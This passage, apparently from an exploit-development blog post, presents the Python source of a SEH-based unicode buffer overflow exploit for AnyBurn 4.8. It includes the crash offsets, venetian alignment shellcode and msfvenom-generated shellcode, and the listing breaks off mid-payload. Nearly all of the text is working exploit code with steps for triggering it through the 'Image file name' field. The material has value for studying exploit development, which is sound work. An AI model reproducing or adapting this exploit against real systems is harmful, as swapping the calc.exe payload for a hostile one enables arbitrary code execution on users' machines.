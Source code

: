 The final source code for this exploit can be seen below, and on my <a href="https://github.com/crawl3r/anyburn_sploit">Github</a>:

```
#!/usr/bin/env python

##########################################################################
# Exploit Title: AnyBurn
# Date: 08/03/2020		(original poc: 15-12-2018)
# Vendor Homepage: http://www.anyburn.com/
# Software Link : http://www.anyburn.com/anyburn_setup.exe
# Exploit Author: Crawl3r 	(original poc: Achilles)
# Tested Version: 4.8     	(original poc: 4.3 (32-bit))
# Tested on: Windows 10 x64	(original poc: Windows 7 x64)
# Vulnerability Type: 		(original poc: Denial of Service (DoS) Local Buffer Overflow)

# Steps to Produce the Crash:
# 1.- Run python code : AnyBurn.py
# 2.- Open EVIL.txt and copy content to clipboard
# 3.- Open AnyBurn choose 'Copy disk to Image'
# 4.- Paste the content of EVIL.txt into the field: 'Image file name'
# 5.- Click 'Create Now' and you will see a crash.
##########################################################################

eax_align = "\x47"		# venetian pad/align
eax_align += "\x56" 		# push esi
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x58"		# pop eax
eax_align += "\x47" 		# venetian pad/align 
eax_align += "\x05\x1c\x11" 	# add eax,0x11001c00
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x2d\x16\x11" 	# sub eax,0x11001600 (net diff +600h)
eax_align += "\x47" 		# venetian pad/align
eax_align += "\x50" 		# push eax -> eax should now point to esi + 600bytes (should be in the junk buffer)
eax_align += "\x47"		# pad to align the following ret
eax_align += "\xc3";		# ret into eax?

# note: above align only gives 600 bytes to play with. Cba doing the math to get the whole 9k but it's probably doable.

crash_buffer_size = 10000
nseh_offset = 9197
junk = "\x41" * nseh_offset 	# offset to nSeh
nSeh = "\x61\x47"    		# popad? test, might not actually need, we just basically NOP through it and SEH
seh = "\x09\x48"     		# unicode friendly pop,pop,ret -> 0x00480009 (we ignore the 00's as it gets padded anyway, making our address)

#msfvenom -a x86 -p windows/exec cmd=calc.exe -e x86/unicode_mixed BufferRegister=EAX -f py
#512 Bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x51"
buf += "\x41\x54\x41\x58\x41\x5a\x41\x50\x55\x33\x51\x41\x44"
buf += "\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41"
buf += "\x51\x41\x49\x41\x51\x41\x50\x41\x35\x41\x41\x41\x50"
buf += "\x41\x5a\x31\x41\x49\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += "\x31\x41\x49\x41\x49\x41\x58\x41\x35\x38\x41\x41\x50"
buf += "\x41\x5a\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49"
buf += "\x41\x49\x51\x49\x31\x31\x31\x31\x41\x49\x41\x4a\x51"
buf += "\x49\x31\x41\x59\x41\x5a\x42\x41\x42\x41\x42\x41\x42"
buf += "\x41\x42\x33\x30\x41\x50\x42\x39\x34\x34\x4a\x42\x4b"
buf += "\x4c\x5a\x48\x53\x52\x4d\x30\x4b\x50\x4d\x30\x33\x30"
buf += "\x55\x39\x39\x55\x4e\x51\x37\x50\x32\x44\x44\x4b\x52"
```